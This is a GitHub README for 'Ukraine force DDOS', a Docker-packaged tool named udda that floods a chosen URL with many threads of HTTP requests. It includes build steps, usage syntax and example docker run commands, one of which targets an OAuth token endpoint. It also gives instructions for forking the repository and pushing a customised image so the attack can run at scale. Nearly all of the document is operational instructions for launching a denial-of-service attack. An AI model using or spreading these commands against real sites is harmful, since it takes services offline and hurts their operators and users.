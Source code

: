 #Ukraine force DDOS

[![docker](https://github.com/nlemeshko/ukraineforce/actions/workflows/docker.yaml/badge.svg)](https://github.com/nlemeshko/ukraineforce/actions/workflows/docker.yaml)

### Variables:

- **headers.json**
- **body.json**

### Build:
```docker build -t ukraineforce .```


### Usage:
``` udda [URL] [METHOD] [THREADS] [BODY_JSON_FILE_PATH] [HEADERS_JSON_FILE_PATH] [flags] ```

Flags:
-h, --help   help for udda


Example:

```docker run --rm -d ukraineforce ./udda udda http://127.0.0.1:5894/api/v1/oauth/token POST 20 body.json headers.json```

### Alternative usage

```git clone https://github.com/nlemeshko/ukraineforce.git```
```Change headers and body```
```docker run --rm -d mdsn/ukraineforce ./udda udda [URL] POST 20 body.json headers.json```

### Fork usage:

- **Fork repository and clone**
- **Add to repository three secrets**
    - **DOCKERHUB_USERNAME** - Your Dockerhub username
    - **DOCKERHUB_TOKEN** - Your Dockerhub password
    - **DOCKERHUB_PATH** - Your path to Dockerhub
- **Change headers, body and push**
- **run command:**
    - ``` docker run --rm -d [DOCKERHUB_PATH] ./udda udda [URL] POST 20 body.json headers.json```